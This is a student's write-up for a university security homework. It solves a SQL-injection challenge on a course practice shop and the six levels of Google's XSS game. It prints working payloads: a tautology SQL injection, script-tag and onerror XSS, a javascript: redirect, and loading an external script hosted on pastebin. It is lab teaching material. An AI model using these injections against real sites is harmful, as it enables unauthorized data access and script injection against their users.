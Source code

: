 # Web

## Part 1

Mark Thompson is back again! This time, you've found his online shop, but it is clear that he is still developing it. Show him that his site is vulnerable!

https://bigbenbargains.biz/briongshop

Submit the usual CMSC389R flag with your writeup to demonstrate that you successfully completed the homework assignment.


I began with trying an xss attack by adding this to the URL ```https://bigbenbargains.biz/briongshop/item?id=<script>alert('OhNo!');</script>```, this seemed to cause a server error:

![alt text]()


Next, I built upon my assumption that all the "items" and their information were stored in an SQL table somewhere, so I thought using some sort of SQL injection could work. I began buidling my injection by taking the SQL injection from the slides and modifying it to get this URL: ```https://bigbenbargains.biz/briongshop/item?id=1' OR '1'='1' -- -``` hoping that I could get ```id``` to evaluate to true, and then dump all the information. This proved succesful and I got this page with this flag: ```CMSC389R-{u_ar3_th3_SQL_ninja}``` 

![alt text]()


## Part 2

Complete all 6 levels of:

https://xss-game.appspot.com/

#### Level 1

In order to beat this level, I simply queried ```<script>alert()</script>``` in the applications search bar, this was the correct answer and allowed me to move on to the next level.

#### Level 2

This level was more difficult to figure out than the last one, initially I tried to insert ```<script>alert();<\script>``` as a new status and in the URL, neither of these seemed to work. I tried an SQL injection using ```'1'='1' -- -``` just like I did in part 1 of this assignment, and that didn't work. While, looking at the source code I noticed that they did not do a good job of sanitizing input, and if I couldnt run javascript the same way I ran in Level 1 that I could hide it in some other form. In order to do this I simply added ```onerror = alert()``` to the URL which would run the javascript alert when the application encountered an error. Using this I suceeded and was allowed to move to the 3rd level.


### Level 3

For this level, I used a hint that told me ```To locate the cause of the bug, review the JavaScript to see where it handles user-supplied input.```, so I looked over the code and realized this line: ```html += "<img src='/static/level3/cloud" + num + ".jpg' />";``` had a potential vulnerability. I could cause the image source to be something non-existant and then use ```onerror = alert();``` to be able to create an alert. My first attempt I used this URL: ```https://xss-game.appspot.com/level3/frame#' onerror = alert()``` but got this page:

![alt text]()

But after realizing that I needed to format the html element in a way that would be equivelent to ```html += "<img src='/static/level3/cloud" + num + ".jpg' />";```, I used this to produce the desired result: ```https://xss-game.appspot.com/level3/frame#0.jpg' onerror=alert();'```

### Level 4

For this level I took what I learned from the last level and searched for where the user input was bieng handled, I located one line of code that could be potentially vulnerable: ```<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />```. I thought that if I could replace the user input {{timer}} with something that would run my alert. So after some trial and error I used ```')alert('``` to produce the desired result.

### Level 5

Originally I tried injecting new things into the sign up bar, just like the previous few levels, but after a long run of unsuccesful attempts, I decided to try a different approach, the only other vulnerabilities I could think of is changing authorization using cookies, or manipulating the URL. Cookies were not relevant here so I tried messing with the URL, while looking over the code I noticed the ```next``` parameter would change with each new template render, so I thought i'd target that. I tried substituting ```alert()``` for confirm in the URL: ```https://xss-game.appspot.com/level5/frame/signup?next=confirm```, but this did not work. I noticed that I needed some way for the alert() to actually run, and not be just treated as part of the URL. So after some research I discovered that I could use ```javascript:alert()``` to achieve what I wanted to do, using this URL I managed to beat this level: ```https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()```

### Level 6

For this level I realized that the only way to solve I was to manipulate the URL in some way so that it would run a external script. Glancing over the code I realized that the application was checking for any inputs containing ```http``` or ```https```, I also saw this block of code:

```
// Take the value after # and use it as the gadget filename.
    function getGadgetName() { 
      return window.location.hash.substr(1) || "/static/gadget.js";
    }
```

that led me to believe that I could use a site like pastebin to host my code, which would simply be comprised of ```alert("Hello")``` and then paste it in after ```frame#``` to get the solution, using this I was able to pass this level:

```https://xss-game.appspot.com/level6/frame#//pastebin.com/raw/9sjtF2zG```


Here is the final picture!:

![alt text]()



